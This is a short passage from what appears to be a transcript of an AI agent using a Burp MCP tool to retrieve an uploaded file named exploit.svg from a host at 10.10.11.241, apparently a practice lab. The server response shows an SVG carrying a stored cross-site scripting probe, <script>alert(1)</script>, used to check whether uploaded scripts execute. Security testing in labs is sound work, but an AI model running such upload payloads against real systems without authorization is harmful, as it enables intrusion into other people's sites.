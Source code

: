 # Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The SVG upload was successful. Let's try to access the uploaded SVG file to see if it was processed correctly and if our script is executed:
</thinking>

The SVG upload was successful. Let's try to access the uploaded SVG file to see if it was processed correctly and if our script is executed.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/exploit.svg HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:40:29 GMT
Server: Apache/2.4.55 (Ubuntu)
Last-Modified: Wed, 07 May 2025 23:40:25 GMT
ETag: "11a-6349441dc7f28"
Accept-Ranges: bytes
Content-Length: 282
Connection: close
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<script>alert(1)</script>
</svg>
<environment_details>
# VSCode Visible Files
(No visible files)
